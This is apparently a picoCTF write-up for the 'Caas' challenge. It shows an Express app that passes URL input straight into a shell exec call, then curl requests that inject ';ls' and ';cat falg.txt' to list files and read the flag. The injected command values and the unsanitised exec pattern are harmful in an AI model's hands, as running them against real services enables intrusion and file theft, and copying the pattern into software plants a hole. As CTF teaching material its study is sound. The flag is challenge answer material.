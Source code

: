 # **_Caas_**
## Description
Now presenting cowsay as a service
## Solution
Anaylse `index.js`, notice that the input isn't filtered and is executed directly
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```
Lets do a command injection, send `x;ls` as the message, so that the command becomes `exec('/usr/games/cowsay x;ls')`
```console
❯ curl https://caas.mars.picoctf.net/cowsay/t\;ls
 ___
< t >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
The `ls` command returns a filename `falg.txt`, read it and get the flag, make sure to replace `whitespace` with `%20` for `urlencode`
```console
❯ curl https://caas.mars.picoctf.net/cowsay/t\;cat%20falg.txt
 ___
< t >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```